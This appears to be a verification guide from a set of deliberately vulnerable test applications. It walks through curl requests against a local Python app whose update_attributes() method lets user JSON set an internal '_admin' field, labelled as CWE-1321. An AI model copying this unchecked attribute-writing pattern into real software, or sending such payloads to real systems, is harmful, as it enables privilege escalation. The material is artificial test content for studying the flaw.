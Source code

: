 
# Verification Guide

## CWE-1321: Improperly Controlled Modification of Object Prototype Attributes ('Prototype Pollution')
**Location**: DataObject.update_attributes() in src/app.py, approx. line 22

### Verification Steps

1. Install dependencies:

    ```
    python3 -m venv venv
    source venv/bin/activate
    pip install -r requirements.txt
    ```

2. Run the application:

    ```
    cd src
    python app.py
    ```

3. In a separate terminal, create a new object:

    ```
    curl -X POST -H "Content-Type: application/json" -d '{"name":"sample1", "value":"42"}' http://127.0.0.1:5000/create
    ```

    - Response should confirm creation.

4. Update the object with an "internal" attribute (`_admin`) which should not be externally settable:

    ```
    curl -X POST -H "Content-Type: application/json" -d '{"_admin": true}' http://127.0.0.1:5000/update/sample1
    ```

    - Response will show `"admin": true` indicating that the internal attribute was set via user input.

5. Confirm the effect by fetching the object:

    ```
    curl http://127.0.0.1:5000/show/sample1
    ```

    - The output includes `"admin": true`, demonstrating that a normally private or protected field was changed by an external user.

**Conclusion:**  
The `update_attributes()` method directly writes arbitrary attributes based on user-supplied JSON, allowing the manipulation of internal/protected fields—demonstrating CWE-1321.
